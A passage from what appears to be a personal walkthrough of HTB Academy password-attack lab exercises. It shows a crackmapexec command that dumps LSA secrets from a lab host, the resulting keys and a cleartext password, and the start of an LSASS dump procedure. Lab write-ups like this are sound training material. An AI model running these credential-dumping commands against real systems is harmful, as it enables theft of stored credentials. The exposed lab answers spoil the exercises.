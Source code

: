 
9. Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.
While we still have rdp connection with target we run on our attacking machine this:
```c
crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa


SMB         10.129.202.137  445    FRONTDESK01      [*] Windows 10 / Server 2019 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.202.137  445    FRONTDESK01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.202.137  445    FRONTDESK01      [+] Dumping LSA secrets
SMB         10.129.202.137  445    FRONTDESK01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.202.137  445    FRONTDESK01      NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.202.137  445    FRONTDESK01      frontdesk:Password123
SMB         10.129.202.137  445    FRONTDESK01      [+] Dumped 3 LSA secrets to /home/htb-ac-1052766/.nxc/logs/FRONTDESK01_10.129.202.137_2024-09-19_141410.secrets and /home/htb-ac-1052766/.nxc/logs/FRONTDESK01_10.129.202.137_2024-09-19_141410.cached
```


### Attacking LSASS

10. What is the name of the executable file associated with the Local Security Authority Process?

Ctr+F the page to find the answer 
`lsass.exe`

11. Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)

So this task took quite a loooong time for me to do, because I was initially doing it on my Kali machine in Vmware, but that was not successful, the lsass.dmp simply wasn't creating no mater how many times I tried. Then I've decided to use the built-in Pwnbox and that went smooth as fuck!

The process of getting the hash was interesting to me. Here are the steps:

First of all, we are provided with the `htb-student` and `HTB_@cademy_stdnt!` username and password to RDP to our Windows victim machine, so simply use rdesktop (I lowkey like it more that xfreerdp)
```c
rdesktop -u htb-student -p 'HTB_@cademy_stdnt!' 10.129.214.228 
```

Once logged in, navigate to Users directory inside the C: drive and enable permissions to get access to this directory and be able to obtain the hash later
Then open the powershell as admin and find the Process ID (PID) of the lsass:
```c
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    656   0 lsass
```
